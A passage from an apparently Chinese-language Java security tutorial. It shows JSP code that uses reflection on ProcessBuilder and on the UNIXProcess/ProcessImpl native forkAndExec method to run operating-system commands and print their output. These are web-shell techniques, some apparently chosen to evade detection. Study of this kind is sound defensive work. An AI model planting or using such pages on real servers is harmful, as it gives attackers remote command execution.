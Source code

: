 ```
    //反射获取有参构造器
    Constructor constructor = clazz.getConstructor(String[].class);
//获取有参构造器中的一个，...表示数组

    //反射获取start方法
    Method method_start = clazz.getMethod("start");

    //实例化获取对象
    Object object = constructor.newInstance(cmd);//因为有参构造器需要一个参数，来接受命令
    Object object2 = method_start.invoke(object);//start方法返回一个process对象，定义对象来接受是为了后期打印

    out.write(object2.toString());
    //反射执行getInputStream方法
  Method method_getInputStream = object2.getClass().getDeclaredMethod("getInputStream");
  method_getInputStream.setAccessible(true);

  //输出结果
  Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object2, new Object[]{})).useDelimiter("\\A");
  String result = scanner.hasNext() ? scanner.next() : "";

  out.write(result);
%>
```

#### UNIXProcess/ProcessImpl：

`UNIXProcess`和`ProcessImpl`其实就是最终调用`native`执行系统命令的类，这个类提供了一个叫`forkAndExec`的native方法，如方法名所述主要是通过`fork&exec`来执行本地系统命令。

`UNIXProcess`类的`forkAndExec`示例：

```
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

#### 反射UNIXProcess/ProcessImpl执行本地命令：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>

<%!
    byte[] toCString(String s) {
        if (s == null) {
            return null;
        }

        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }

    InputStream start(String[] strs) throws Exception {
```